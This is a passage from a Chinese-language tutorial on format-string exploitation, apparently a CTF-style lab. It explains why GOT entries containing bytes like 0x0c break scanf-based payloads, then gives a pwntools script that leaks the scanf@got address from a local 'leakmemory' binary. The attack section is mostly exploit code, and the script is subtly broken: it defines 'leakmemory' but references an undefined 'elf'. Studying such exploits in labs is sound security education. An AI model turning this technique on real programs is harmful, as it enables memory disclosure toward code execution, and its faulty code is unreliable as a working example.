 因此GOT条目的地址如果包含了0a，0b，0c，00等字符，又使用scanf来输入自定义的格式化字符串，那么可能会利用漏洞失败。


△现在我们来尝试泄露scanf@got[前面已知了格式化字符串存储于第4个受解析的参数位]：

![leakmemory的GOT表的情况](/img/assets/img/random5.jpg)


> -R, --dynamic-reloc      Display the dynamic relocation entries in the file[展示动态重定位条目]

这里可以泄露的函数4个，包含我们比较关心的printf和scanf函数条目。观察printf条目的地址0x0804a00c，存在scanf("%s",s)读取时不能正常解析的字符0c，因此我们选择了泄露scanf@got，而非printf@got。

利用pwntools构造payload如下：
    
	#!/usr/bin/python
	from pwn import *
	sh = process('./leakmemory')
	leakmemory = ELF('./leakmemory')
	
	scanf_got = elf.got['__isoc99_scanf']#获取GOT条目的地址
	print hex(scanf_got)
	payload = p32(scanf_got) + '%4$s' #构造payload,即addr%4$s。
	print payload
	#gdb.attach(sh)  #使用gdb.attach(sh)来放入gdb进行调试
	sh.sendline(payload) #从gdb调试出来后才发送payload到sh[本地/远程]
	sh.recvuntil('%4$s\n') #接收printf("..",a,b,c,s)的打印结果，接收到%4$s为止
	print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
	#前4字节是scanf@got偏移[addr],即sh.recv()为scanf@got条目地址[addr]、scanf@got条目内容[%4$s]
	sh.interactive()

![直接运行脚本的结果](/img/assets/img/random6.jpg)
